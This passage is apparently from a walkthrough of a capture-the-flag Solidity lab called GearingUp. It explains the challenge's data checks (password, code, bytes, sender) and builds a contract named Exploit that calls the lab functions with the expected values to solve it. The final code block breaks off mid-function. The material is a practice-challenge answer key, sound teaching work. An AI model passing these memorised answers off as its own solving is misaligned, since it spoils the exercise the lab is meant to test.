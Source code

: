 Smart Contract can also be used to send data. Just like the function *GearingUp:sendSomeData()*, you are going to send a *string*, *uint256*, *bytes*, and *address*. Let's see the if logic. &nbsp;  
&nbsp;  

```solidity
    function sendSomeData(string memory password, uint256 code, bytes4 fourBytes, address sender) public{
        if(
            keccak256(abi.encodePacked(password)) == keccak256(abi.encodePacked("GearNumber1")) &&
            code == 687221 &&
            keccak256(abi.encodePacked(fourBytes)) == keccak256(abi.encodePacked(bytes4(0x1a2b3c4d))) &&
            sender == msg.sender
        ){
            sendData = true;
        }
    }
```
&nbsp;  
You might wonder now why we use hash comparison and why not directly compare the input and the values (bytes and string), Solidity can't do that, hence that logic above is implemented. Okay, let's write the code now. &nbsp;  
&nbsp;  

```solidity
function solveGearingUp() public payable{
    GU.callThis();
    GU.sendMoneyHere{value: msg.value}();
    GU.withdrawReward(); 
    // Send the required data
    GU.sendSomeData("GearNumber1", 687221, 0x1a2b3c4d, address(this));
}
```
&nbsp;  
Oh yeah, the *address(what)* is to fulfill the 4th requirement, since it compares that the value of *address sender* is equal with *msg.sender* (our smart contract), we must put our address there. In another case, when you need to parse a payable address, you can use *payable(address(this))*.
&nbsp;  
&nbsp;
### Finishing Up & Deploying Exploit
Now that we have our Exploit for every function, we just need to call *GearingUp::completedGearing()* to make the *Setup::isSolved()* return true and solve the lab. Here is our final Exploit with the Ether send on the attack. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./GearingUp.sol";

contract Exploit{
    Setup public setup;
    GearingUp public immutable GU;

    constructor(address _setup){
        setup = Setup(_setup);
        GU = GearingUp(setup.GU());
    }

    function solveGearingUp() public payable{
        require(msg.value == 5 ether);
        GU.callThis();
        GU.sendMoneyHere{value: msg.value}();
        GU.sendSomeData("GearNumber1", 687221, 0x1a2b3c4d, address(this));
```